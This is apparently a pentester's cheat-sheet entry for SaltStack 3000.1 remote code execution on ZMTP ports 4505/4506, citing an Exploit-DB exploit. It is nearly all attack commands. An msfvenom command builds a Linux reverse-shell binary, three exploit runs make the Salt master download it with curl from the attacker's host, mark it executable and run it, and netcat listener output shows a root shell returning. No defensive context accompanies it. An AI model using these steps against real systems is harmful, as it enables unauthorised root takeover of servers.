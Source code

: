 # zmtp 4505,4506

## Saltstack 3000.1 - rce

[https://www.exploit-db.com/exploits/48421](https://www.exploit-db.com/exploits/48421)

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ip LPORT=4506 -f elf > shell.elf
```

``` bash
python3 exploit.py --master ip --exec "curl ip:4505/shell.elf -o /tmp/shell"
python3 exploit.py --master ip --exec "chmod +x /tmp/shell"
python3 exploit.py --master ip --exec "/tmp/shell"
```

``` bash
$ sudo nc -nvlp 4506            
listening on [any] 4506 ...
connect to [ip] from (UNKNOWN) [ip] 34288
id
uid=0(root) gid=0(root) groups=0(root)
```
